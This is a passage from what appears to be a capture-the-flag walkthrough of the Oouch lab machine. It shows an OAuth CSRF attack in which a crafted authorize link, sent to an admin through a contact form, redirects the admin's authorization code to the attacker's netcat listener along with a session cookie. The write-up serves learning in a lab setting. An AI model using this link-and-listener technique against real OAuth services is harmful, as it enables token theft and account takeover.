     
    
    HTTP/1.1 302 Found
    Content-Type: text/html; charset=utf-8
    Location: http://10.10.14.6/token?code=eG2kDsLExEKn8tVtzqERCXwyx7b95U
    X-Frame-Options: SAMEORIGIN
    Content-Length: 0
    Vary: Authorization, Cookie
    

#### CSRF #2

With the GET request above, I can now send this as a link to the admin and
have them click on it and redirect to me. I’ll create the following link:

    
    
    <a href="http://authorization.oouch.htb:8000/oauth/authorize/?client_id=d3VwRo9trmopGfGpiYUsKhkwE674SgAM3wT5A6EQ&response_type=code&redirect_uri=http://10.10.14.6/token&scope=read&state=&allow=Authorize">click me</a>
    

About a minute after sending this through the contact form, someone clicks on
it from Oouch, and this request comes back:

    
    
    root@kali# nc -lnvp 80
    listening on [any] 80 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.177] 45972
    GET /token?code=9a5Q0yBlx7ONDslRKGlulr6a7i8vOM HTTP/1.1
    Host: 10.10.14.6
    User-Agent: python-requests/2.21.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Cookie: sessionid=0wlwoshe5nbpgmgw7357g0a9fgq4xowx;
    

What just happened? I sent a link that when clicked on started the person who
clicked in the process of telling the authentication server that they wanted
my application to get access to their data on the authorization server, with
the request marked in red below. What comes back to my `nc` listener is the
client’s browser being redirected to my application with the request marked in
green:

[![img](https://0xdfimages.gitlab.io/img/image-20200730181927999.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20200730181927999.png)

I did notice that a PHP session cookie was included in that request. This
makes no sense to me, but I’ll look at it in Beyond Root.

#### Request Access Token

When the client sends me the `authorization_code`, I can use that to request
an `access_token`.

I’ll use `curl` to send the request with the `client_id`, `client_secret`, and
`grant_type` from my application (the secret and id are different from the
image above because I had to re-register to update this post), the
`redirect_uri` , and the `code` (pipped into `jq` to make the result more
readable):
